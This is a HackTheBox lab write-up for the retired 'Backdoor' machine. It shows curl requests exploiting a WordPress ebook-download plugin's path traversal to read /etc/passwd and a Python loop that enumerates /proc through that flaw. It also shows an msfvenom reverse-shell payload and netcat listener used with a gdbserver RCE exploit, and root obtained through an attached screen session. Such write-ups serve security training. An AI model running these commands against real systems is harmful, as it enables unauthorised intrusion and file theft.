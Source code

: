 Title: HTB: Backdoor
Date: 04-25-2022 15:40
category:security
tags:security, boot2root, HTB, wordpress, lfi, gdbserver, screen
meta:security, boot2root, HTB, wordpress, lfi, gdbserver, screen

<img class="align-left" src="/media/2022.04/backdoor_card.png" alt="Backdoor" width="262">

This is a writeup about a retired HacktheBox machine:
[Backdoor](https://www.hackthebox.com/home/machines/profile/416) publish on
November 20, 2021 by
[hkabubaker17](https://www.hackthebox.com/home/users/profile/79623).
This box is rated as an easy machine. It implies a wordpress plugin, a LFI, a
gdbserver and a screen process.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only three TCP ports are open: 22 (SSH), 80 (HTTP) and 1337 (we don't know what
is running there).

    :::text
    # Nmap 7.92 scan initiated Tue Jan  4 08:45:39 2022 as: nmap -p- -sSV -oN notes.md 10.129.171.210
    Nmap scan report for 10.129.171.210
    Host is up (0.013s latency).
    Not shown: 65532 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
    1337/tcp open  waste?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Tue Jan  4 08:46:11 2022 -- 1 IP address (1 host up) scanned in 31.95 seconds

The HTTP port is a basic WordPress website.

![WordPress homepage](/media/2022.04/backdoor_01.png){: .image-process-article-image}

Looking at the installed plugin we found that ebook-download is available:

![ebook-download plugin](/media/2022.04/backdoor_02.png){: .image-process-article-image}

This WordPress plugin is [vulnerable to a LFI](https://www.exploit-db.com/exploits/39574)
that we can exploit to retrieve files on the box.

    :::text
    └─$ curl http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../etc/passwd
    ../../../../../../../../../etc/passwd../../../../../../../../../etc/passwd../../../../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    <SNIP>
    user:x:1000:1000:user:/home/user:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
    <script>window.close()</script>


We want to find which process is running on port 1337. We write a quick python
script that get the Max PID and list the process by PID.

    :::python
    import requests

    i=0
    r = requests.get('http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/sys/kernel/pid_max')
    maxpid= int(r.text[132:-31])
    print(maxpid)

    while i<maxpid:
        r = requests.get('http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/'+str(i)+'/cmdline')
        if r.text[102+3*len(str(i)):112+3*len(str(i))]!='<script>wi':
            print(r.text[102+3*len(str(i)):-31])
        i+=1

We finally discover that the 1337 process is a `gdbserver`. We also notice a
`sceen` session running as `root`.

    :::text
    └─$ python3 l.py
    4194304
    /sbin/initautoautomatic-ubiquitynoprompt
    <SNIP>
    /bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
    /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done


`gdbserver` is vulnerable to a [RCE](https://www.exploit-db.com/exploits/50539).
We generate the reverse shell, start a listener and launch the exploit. Getting
a shell as `user` allowing use to grab the user flag.

    :::text
    └─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.26 LPORT=4444 PrependFork=true -o rev.bin

    ─$ python3 50539 backdoor.htb:1337 rev.bin

    └─$ nc -nlvp 4444

    listening on [any] 4444 ...
    connect to [10.10.14.26] from (UNKNOWN) [10.129.171.210] 42684
    id
    uid=1000(user) gid=1000(user) groups=1000(user)
    cat user.txt
    ee34dbf05622446ad1e9f1d35ac6d43e


# Root

We create the `.ssh` directory and put our public SSH key in the
`authorized_keys` file in order to be more comfortable.

Remember that screen process we enumerated before?

`/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done`

We can verify that the session is still running:

    :::text
    user@Backdoor:~$ screen -ls root/root
    There is a suitable screen on:
            3694.root       (01/05/2022 09:38:33 AM)        (Multi, detached)
    1 Socket in /run/screen/S-root.

And we attach it getting the root flag:

    :::text
    user@Backdoor:~$ screen -x root/root

    root@Backdoor:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@Backdoor:~# cat root.txt
    dbb5f80464c7d1489b8bba15d280195e

# Wrapping up

A quick an easy box, perfect for me as it has been a while since my last box.

